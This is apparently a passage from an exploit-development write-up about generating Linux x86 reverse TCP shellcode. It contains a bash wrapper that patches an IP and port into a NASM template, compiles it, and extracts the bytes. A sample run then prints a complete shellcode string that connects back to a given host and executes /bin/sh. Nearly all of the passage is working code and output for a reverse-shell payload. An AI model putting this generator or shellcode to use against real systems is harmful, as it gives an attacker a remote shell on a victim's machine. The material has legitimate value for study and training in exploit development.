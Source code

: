 ```bash
IP2=`echo ${IP} | cut -d. -f2`
IP3=`echo ${IP} | cut -d. -f3`
IP4=`echo ${IP} | cut -d. -f4`

# Converting IP in hex and little endian representation
HEXFMTIP1=$([ ${IP1} -ne 0 ] && echo `printf "0x%x" ${IP1}` || echo dl)
HEXFMTIP2=$([ ${IP2} -ne 0 ] && echo `printf "0x%x" ${IP2}` || echo dl)
HEXFMTIP3=$([ ${IP3} -ne 0 ] && echo `printf "0x%x" ${IP3}` || echo dl)
HEXFMTIP4=$([ ${IP4} -ne 0 ] && echo `printf "0x%x" ${IP4}` || echo dl)

# for debugging purpose
echo "----------------------------"
echo "[*] HEXFMTPORT:${HEXFMTPORT}"
echo "[*] HEXFMTPORT1:${HEXFMTPORT1}"
echo "[*] HEXFMTPORT2:${HEXFMTPORT2}"
echo "[*] HEXFMTIP1:${HEXFMTIP1}"
echo "[*] HEXFMTIP2:${HEXFMTIP2}"
echo "[*] HEXFMTIP3:${HEXFMTIP3}"
echo "[*] HEXFMTIP4:${HEXFMTIP4}"
echo "----------------------------"
echo

# Replacing port and ip patterns
# Generating a new file source and compiling
sed "s/PORT1/${HEXFMTPORT1}/" ${FILE} > ${NASM_FILENAME} && \
sed -i "s/PORT2/${HEXFMTPORT2}/" ${NASM_FILENAME} && \
sed -i "s/IP1/${HEXFMTIP1}/" ${NASM_FILENAME} && \
sed -i "s/IP2/${HEXFMTIP2}/" ${NASM_FILENAME} && \
sed -i "s/IP3/${HEXFMTIP3}/" ${NASM_FILENAME} && \
sed -i "s/IP4/${HEXFMTIP4}/" ${NASM_FILENAME} && \
./compile.sh ${FILE%.*} && \
objdump -d ${FILE%.*}|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
  
Trying with a port (2048 = 0x0800) and IP (127.0.0.1) which are generating some null bytes provides the following:  
```bash
./wrapper.sh 127.0.0.1 2048 ./shell_reverse_tcp.template 
----------------------------
[*] HEXFMTPORT:0800
[*] HEXFMTPORT1:0x08
[*] HEXFMTPORT2:dl
[*] HEXFMTIP1:0x7f
[*] HEXFMTIP2:dl
[*] HEXFMTIP3:dl
[*] HEXFMTIP4:0x1
----------------------------

[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\xc6\x04\x24\x7f\x88\x54\x24\x01\x88\x54\x24\x02\xc6\x44\x24\x03\x01\x66\x52\xc6\x04\x24\x08\x88\x54\x24\x01\x66\x6a\x02\x89\xe3\x6a\x10\x53\x57\x31\xdb\xf7\xe3\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```
